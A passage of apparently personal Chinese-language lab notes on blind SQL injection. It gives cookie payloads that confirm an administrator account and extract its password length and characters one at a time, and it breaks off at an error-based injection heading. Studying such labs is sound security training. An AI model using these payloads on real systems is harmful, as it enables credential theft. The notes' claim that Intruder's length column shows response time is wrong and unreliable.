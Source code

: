 判断是否存在user表和username=‘administrator’的一行

```SQL
skltCt9gC13tASAk' and (SELECT 'A' FROM users WHERE username='administrator')='A
```

attack出密码长度，发现是20位

```SQL
TrackingId=skltCt9gC13tASAk' AND ( select 'a' from users where username='administrator' AND LENGTH(password)>§1§)='a
```

- 要知道这里的where后面的and前后的东西是一起的，都是对于select的限制，而不是and相连的布尔判断式

  ```SQL
  where username='administrator' AND LENGTH(password)>§1§
  ```

- 为什么intruder后length不同就能判断出密码的长度？

  ![image-20221121092517763](images/image-20221121092517763.png)

  因为这里的length代表的是**反应时长**，因为**密码正确和错误所反应的时间是不同的**。

然后继续爆出密码。

```SQL
TrackingId=skltCt9gC13tASAk' AND (select SUBSTRING(password,$1$,1) from users where username='administrator')='$a$

```

## T12报错盲注

### 方法一：利用`||`(Oracle、PostgreSQL数据库优先考虑此方法)
